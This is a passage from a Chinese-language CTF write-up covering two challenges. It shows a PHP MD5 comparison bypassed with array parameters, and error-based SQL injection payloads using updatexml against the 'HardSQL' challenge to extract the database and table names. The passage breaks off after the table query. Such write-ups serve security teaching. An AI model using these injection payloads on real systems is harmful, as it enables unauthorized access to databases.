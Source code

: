 绕过后又出现了一段php代码

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['wqh']!==$_POST['dsy']&&md5($_POST['wqh'])===md5($_POST['dsy'])){
    echo $FLAG;
} 
```

要求以post方式上传wqh和dsy两个参数 两个参数不相等 md5值强相等 这里我们只能使用数组绕过

```php
wqh[]=1&dsy[]=2
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736602591579-9c92cd72-3cd3-4812-a076-34489ac4b6c4.png)

# 挑战自我
##  [更难一点的极客大挑战 2019HardSQL ]
尝试万能公式

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732240304379-7a9dcb86-c085-47e9-9055-c6f176be24c6.png)

很明显 被过滤了行不通 接着试着union联合查询 双写之后还是被过滤了

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732240304379-7a9dcb86-c085-47e9-9055-c6f176be24c6.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

尝试用报错注入 爆数据库payload

```sql
username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732249239887-b533f9f7-97ef-4bb8-924f-fd5e7f966ef6.png)

爆出了数据库名字为'geek'

接着查询表名 由于=被过滤了 所以使用like去代替

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732250235550-b582f850-3f2e-4d12-879d-801345c838c1.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

